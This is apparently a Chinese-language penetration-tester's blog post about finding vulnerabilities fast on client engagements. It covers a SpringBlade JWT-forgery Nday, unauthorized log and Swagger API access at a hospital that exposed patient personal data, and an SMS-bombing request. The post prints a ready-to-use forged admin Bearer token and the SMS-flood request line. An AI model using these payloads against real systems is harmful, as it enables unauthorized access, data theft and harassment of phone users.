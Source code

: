 #  记一次项目中快速挖掘漏洞   
原创 莫大130  安全逐梦人   2024-03-16 19:09  
  
# 安服仔漏洞挖掘  
> 在项目中一般时间很紧，给挖掘漏洞的  
时间也就一天，还必须有漏洞产出，本次来讲述一下 如何快速挖掘漏洞，本次过程相关截图均已进行脱敏处理。  
  
### 主要用到的工具  
- afrog  
  
- FindSomething  
   
  
- yakit  
  
- dirsearch  
  
- fuff  
  
## 指纹识别使用Nday漏洞利用  
  
通过afrog工具识别到了项目中有一个资产使用了Spring Blade框架，并快速使用Nday完成漏洞利用  
  
构造jwt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWuonxdyuOQSf4Er7BjsWXJpUSJgstONQ100oFc6PwXyCMo0B9jLjvkg/640?wx_fmt=png&from=appmsg "")  
  
使用构造的jwt加密  
```
Blade-Auth: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwidXNlcl9uYW1lIjoiYWRtaW4iLCJuaWNrX25hbWUiOiLnrqHnkIblkZgiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzYWJlciJ9.UHWWVEc6oi6Z6_AC5_WcRrKS9fB3aYH7XZxL9_xH-yIoUNeBrFoylXjGEwRY3Dv7GJeFnl5ppu8eOS3YYFqdeQ

```  
  
获取数据库账户密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWmm3OYD3FZYP8jwhoHsd9eSHynfhqS9WPysAjb6t6sRpOYopBw2Zr6Q/640?wx_fmt=png&from=appmsg "")  
  
获取管理员账户密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWVyh5d5pHyYXEn8NmxVQKucMvoOGibXx6YSO7dXnFdUVS6PNdcg7EcVw/640?wx_fmt=png&from=appmsg "")  
  
解密管理员md5 登录后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWiciamd2YA8l1l2oSSZWUl3IGxlvvFYGPPq2KZL5MePgH96ib1kuA7nkRw/640?wx_fmt=png&from=appmsg "")  
## 某医院漏洞挖掘  
  
在一次医院渗透时，其微信公众号有功能，抓包将域名提取出来进行测试  
  
医院挖掘漏洞大部分可按照这个方向来挖掘  
  
1、接口未授权访问    
  
2、sql注入漏洞    
  
3、Swagger接口未授权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWl2ZibzsP1uunib2womVa4ibxSCuxR4ABT7nsFMb5rvl4LibMdxzlUKw0cw/640?wx_fmt=png&from=appmsg "")  
  
## 未授权漏洞  
  
使用ffuf扫描目录发现了日志系统，该系统未授权而且可以查看所有用户进行的操作记录，总共15w条数据泄露  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWERBYLphRdSyCnOolXq5RGPvTDxiaHMbvzF04XXOOt0LJB88fhA5IiaMg/640?wx_fmt=png&from=appmsg "")  
  
  
Swagger接口未授权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWajVhExG6qTqgiaLWZu9iceVTqbm8dAA2elOWl1ibwjMUaE8z0B01EmdxQ/640?wx_fmt=png&from=appmsg "")  
  
在对Swagger泄露的接口进行未授权批量测试，推荐使用yakit工具  
  
查询到一堆医院用户的个人信息，身份证，电话号码等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWwLVOTalIsWAOaKRhsOllLVfMkM4CDG1YJ5HqI5h43ko82stRTqLVEA/640?wx_fmt=png&from=appmsg "")  
  
某运营商短信炸弹漏洞  
  
通过FindSomething插件收集到目标网站的api接口  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWzUu0ePDFQxmIZViaV8hcO5bxgQVicqqiaObWAFeNPh7FmYwnVKrCrLV5A/640?wx_fmt=png&from=appmsg "")  
  
使用yakit fuzz模糊测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5ibMugKLlRjicCffVQsDvlVWTsoQgbLyOA7HZUFgFyvTJHTUlicYnQnAnl66OPJm2KrJnjhHib83Sv6Q/640?wx_fmt=png&from=appmsg "")  
  
发现prod-api/resource/sms/code接口提示报错 phoneNumber  
  
将参数拼接，经过测试可以无限次发送请求，造成短信轰炸  
```
/prod-api/resource/sms/code?phoneNumber=1888888888 HTTP/1.1
```  
  
总结  
  
本次项目中挖掘的漏洞并不算很难挖，基本上工具用的好，都能快速挖掘出来，一句话有手就行。  
  
